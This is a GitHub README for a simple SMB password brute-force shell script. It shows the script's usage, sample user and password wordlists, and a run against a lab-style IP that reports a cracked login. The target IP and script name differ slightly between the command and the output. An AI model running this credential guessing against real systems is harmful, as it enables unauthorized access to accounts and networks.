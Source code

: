 # VSSB
Very simple SMB brute force\
\
Some complex tools may fail sometimes.
\
This script just tries to login via "smbclient".
\
```usage: ./simple-smb-bruteforce.sh -u users.txt -p pswds.txt [-d DOMAIN] -s 10.10.10.123```
\
Considering the following file (containing a list of users):
\
```
kali@kali:~/Desktop$ cat usrs.txt
pippo
fsmith
luca```
\
and the following file (containing a list of passwords):
```
kali@kali:~/Desktop$ cat pwds.txt
123456
sandro
omg123!!!
Thestrokes23  
pippo
password```
\
you can use the scripts as follows:
```
kali@kali:~/Desktop$ ./simple-smb-bruteforce1.sh -u ./usrs.txt -p ./pwds.txt -s 10.10.10.123

parameter '-d' not set: using default WORKGROUP

Usernames list: ./usrs.txt
Passwords list: ./pwds.txt
Current domain: WORKGROUP
Target server : 10.10.10.175

starting...

Found WORKGROUP@fsmith:Thestrokes23

done!
```

